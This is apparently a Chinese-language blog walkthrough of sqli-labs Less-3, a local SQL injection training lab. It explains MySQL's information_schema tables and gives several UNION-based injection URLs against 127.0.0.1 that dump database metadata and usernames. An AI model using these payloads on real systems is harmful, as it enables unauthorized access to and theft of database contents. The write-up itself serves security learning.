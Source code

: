 <img src="{{ site.url }}/assets//blog_images/sqli-labs_less2_07.png" />





**sql-labs_less-3**  **GET - Error based - Single quotes with twist string (基于错误的GET单引号变形字符型注入)** 

  多多练习手工技术：（**注意一定要让id的值为0，负等**）

再次记一下：

SCHEMATA表:储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等，show databases的结果取之此表。

TABLES表:储存mysql中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。show tables from schemaname的结果取之此表

COLUMNS表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，猎德注释等。是show columns from schemaname.tablename的结果取之此表。 

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,concat_ws(char(32,58,32),user(),database(),version()) %23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_01.png" />

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,table_name from information_schema.tables where table_schema = 'security' %23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_02.png" />

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,column_name from information_schema.columns where table_schema = 'security' and table_name = 'users' limit 1,1 %23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_03.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_04.png" />

then：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_05.png" />

`http://127.0.0.1/Less-3/?id=-1')  union select 1,2,group_concat(char(32),username,char(32)) from users limit 0,1%23`

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_06.png" />

<img src="{{ site.url }}/assets//blog_images/sqli-labs_less4_07.png" />



